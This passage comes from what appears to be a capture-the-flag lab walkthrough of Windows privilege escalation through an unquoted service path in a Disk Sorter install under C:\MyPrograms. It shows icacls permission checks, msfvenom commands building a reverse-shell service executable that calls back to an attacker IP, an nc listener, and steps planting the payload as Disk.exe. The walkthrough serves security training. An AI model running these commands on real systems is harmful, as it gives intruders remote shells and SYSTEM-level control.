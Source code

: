 From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.

#### Note - 
   - While this sounds trivial, most of the service executables will be installed under `C:\Program Files` or `C:\Program Files (x86)` by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited.
   - There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.

In our case, the Administrator installed the Disk Sorter binaries under `c:\MyPrograms`. By default, this inherits the permissions of the `C:\` directory, which allows any user to create files and folders in it.

**Checking the read-write permissions of "C:`\`"**
```js
C:\>icacls c:\MyPrograms 
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F) 
	BUILTIN\Administrators:(I)(OI)(CI)(F) 
	BUILTIN\Users:(I)(OI)(CI)(RX) 
	BUILTIN\Users:(I)(CI)(AD) 
	BUILTIN\Users:(I)(CI)(WD) 
	CREATOR OWNER:(I)(OI)(CI)(IO)(F) 
	
Successfully processed 1 files; Failed processing 0 files
```
The `BUILTIN\\Users` group has **AD** and **WD** privileges, allowing the user to create subdirectories and files, respectively.

**Create the following payload and upload it to the server as before.** - 
```sh
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.47.177 LPORT=4444 -f exe-service -o rev-svc2.exe
**We will also start a listener to receive the reverse shell when it gets executed:**
```sh
user@attackerpc$ nc -lvp 4446
```

**Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to `C:\MyPrograms\Disk.exe`.**
```sh
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
```

**We will also grant Everyone full permissions on the file to make sure it can be executed by the service:**
```sh
C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F 
Successfully processed 1 files.
```
